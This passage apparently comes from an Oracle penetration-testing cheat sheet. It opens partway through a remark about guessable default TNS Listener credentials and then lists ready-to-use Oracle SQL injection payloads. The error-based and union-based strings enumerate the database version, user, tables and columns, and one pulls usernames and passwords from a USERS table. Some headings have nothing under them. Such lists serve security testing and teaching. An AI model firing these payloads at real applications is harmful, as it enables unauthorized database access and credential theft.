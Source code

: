 These credentials can be easily brute-forced or guessed if not changed, potentially leading to unauthorized access to the Listener.

## Interaction and Tools

### Oracle SQL Net

#### Oracle SQL Net Commands

#### SQL Injection

**Error-Based SQLi**

*   **Division by Zero:** Causes a division by zero error.

    ```
    ' AND 1/(SELECT COUNT(*) FROM all_tables)=0 -- -
    ```
*   **Column Length Error:** Forces an error by exceeding the column length limit.

    ```
    ' AND 1=UTL_INADDR.get_host_address((SELECT column_name FROM all_tab_columns WHERE ROWNUM = 1)) -- -
    ```
*   **Function Error:** Uses a length mismatch to cause an error.

    ```
    ' AND LENGTH((SELECT banner FROM v$version WHERE ROWNUM = 1))=1000 -- -
    ```

**Union-Based SQLi**

*   **Database Version:** Retrieves the Oracle database version.

    ```
    ' UNION SELECT NULL, banner FROM v$version WHERE ROWNUM=1 -- -
    ```
*   **Database User:** Extracts the current Oracle database user.

    ```
    ' UNION SELECT NULL, user FROM dual -- -
    ```
*   **Table Name Enumeration:** Lists the names of all tables accessible by the user.

    ```
    ' UNION SELECT NULL, table_name FROM all_tables WHERE ROWNUM=1 -- -
    ```
*   **Column Name Enumeration:** Extracts the column names from a specified table.

    ```
    ' UNION SELECT NULL, column_name FROM all_tab_columns WHERE table_name='USERS' AND ROWNUM=1 -- -
    ```
*   **User Data Extraction:** Retrieves usernames and passwords from the `USERS` table.

    ```
    ' UNION SELECT NULL, username, password FROM USERS -- -
    ```
